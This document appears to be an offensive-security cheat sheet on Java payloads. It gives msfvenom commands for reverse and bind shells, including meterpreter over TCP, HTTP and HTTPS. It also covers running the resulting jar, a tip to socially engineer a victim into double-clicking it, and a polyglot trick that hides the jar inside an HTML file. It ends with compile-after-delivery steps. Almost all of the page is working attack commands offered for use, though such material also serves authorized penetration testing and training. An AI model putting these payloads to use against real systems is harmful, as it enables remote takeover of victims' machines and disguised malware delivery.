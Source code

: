 # Java

## 01 - Generate Payloads

### 1.1 - Reverse Shells

#### 1.1.1 - TCP

Staged reverse shell.

```
$ msfvenom -p java/shell/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

Stageless reverse shell.

```
$ msfvenom -p java/shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

Staged `meterpreter` reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

#### 1.1.2 - HTTP

Staged reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

#### 1.1.3 - HTTP via TLS

Staged reverse shell.

```
$ msfvenom -p java/meterpreter/reverse_https handlersslcert=[/path/to/certificate.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f raw -o payload.jar
```

### 1.2 - Bind Shells

Staged bind shell.

```
$ msfvenom -p java/shell/bind_tcp lport=<PORT> [RHOST=<target_IP>] -f raw -o payload.jar
```

Staged `meterpreter` reverse shell.

```
$ msfvenom -p java/meterpreter/bind_tcp lport=<PORT> [rhost=<target_IP>] -f raw -o payload.jar
```

## 02 - Execute Payloads

> [!TIP]
> On windows, you can combine with a enumeration function to check one of the [[Compilers|compilers]] exist in order to execute the payload especially when the target is windows.
> > [!TIP] Java Payloads
> > You can actually social engineer the victim to double click the `.jar` to establish connection.

```
> java -jar payload.jar
```

## 03 - Polyglot

> [!TIP]
> Feel free to experiment around binding any binary file format with `.jar` payload.

Bind the binary files together.

```
C:\> copy /y /b filename.html+payload.jar hidden_payload.html
```

It's also possible to do this in `wine`.

```
$ wine cmd.exe /y /c copy /b filename.html+payload.jar hidden_payload.html
```

Then execute it

```
C:\> java.exe -jar hidden_payload.html
```

## 04 - Compile After Delivery

> [!INFO]
> Once the source code (`filename.java`) has been compiled. It'll create a class file (`filename.class`) that can be executed with just the `filename`.

```
> javac payload.java

> java payload
```

---
## References

### Source Repositories

- [deepinstinct: JAR-Polyglot-POC](https://github.com/deepinstinct/JAR-Polyglot-POC)